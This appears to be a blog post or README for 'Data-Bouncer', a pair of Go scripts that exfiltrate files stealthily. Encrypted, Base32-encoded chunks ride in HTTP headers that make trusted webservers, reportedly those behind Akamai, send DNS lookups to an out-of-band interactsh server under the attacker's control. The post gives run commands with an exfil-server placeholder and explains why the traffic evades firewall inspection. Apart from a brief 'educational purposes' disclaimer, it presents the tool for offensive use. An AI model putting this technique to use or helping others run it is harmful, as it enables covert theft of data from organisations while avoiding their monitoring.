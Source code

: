 ```yaml
---
title: Data-Bouncer
description: Leverage trusted domains and HTTP headers to stealthily transmit data. 
author: BW
date: 2024-05-19 20:00:00 - 0500
categories: [CyberSecurity, Offensive Security]
tags: [offsec]     # TAG names should always be lowercase
---
```


I came across this Proof of Concept outlined here in <https://thecontractor.io/data-bouncing>.
I took their ideas and wrote two Go scripts that can be used for educational purposes. Please don't do anything illegal.

One script, bounce.go, encrypts and exfiltrates data via DNS by breaking it into chunks and sending it through HTTP headers. The second script, regenerate.go, reassembles and decrypts the data from the exfiltrated chunks. This method leverages trusted domains and HTTP headers to stealthily transmit data.

You will need an OOB dns server under you're control for this to work and collect the data. Here I'm using <https://github.com/projectdiscovery/interactsh>.

From my testing this should work on most websites/domains that touches Akamai.

### Bounce.go
This script reads your chosen domain names from domains.txt. First encrypts your chosen file using a password you provide, encodes the file into Base32 and finally splits it into 63 byte chunks and sends them as part of a domain name in an HTTP header.

Example:
```
go run bounce.go -f <filename> -p <password> -u <UUID> -e <interact server url> -v
```

### Regenerate.go
This script reads the JSON output from your interactsh exfil server, processes and reassembles the chunks and does the reverse of decoding, decrypting, and finally outputting the file.

Example:
```
go run regenerate.go -i <exported.json> -o <outputfile> -p <password> -u <UUID> -v
```

### Images

Example of bouncing a file:

![bouncer](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/87499151-3fef-4acc-b1d8-f67591ae21b9)

Example of regenerating the file:

![regen](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/6a2ac6d1-7d40-455b-b1ae-a83143078076)

Example from interactsh web client:

![interactsh](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/8c8f3ac9-ccf8-44be-9417-36bff4bea1c4)

Example of the forward traffic from FortiGate:

![FortiGate1](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/e4f26c0b-53ec-45db-a438-6fc340b87d1d)

- As you can see, it looks like the traffic is going to 23.x.x.x, a highly trusted domain.
- However, when the HTTP request is made, the webserver looks at our modified HTTP headers and does a dns lookup of our exfil server from those headers.
- Then we're able to collect each of those dns lookups back to our exfil server and reconstruct the data from those headers.
- This only works because many webservers processes hostnames in the headers, and we can relay small chunks of data in those headers for collection.
- Therefore, this makes it an extremely stealthy way of exfiltrating data.

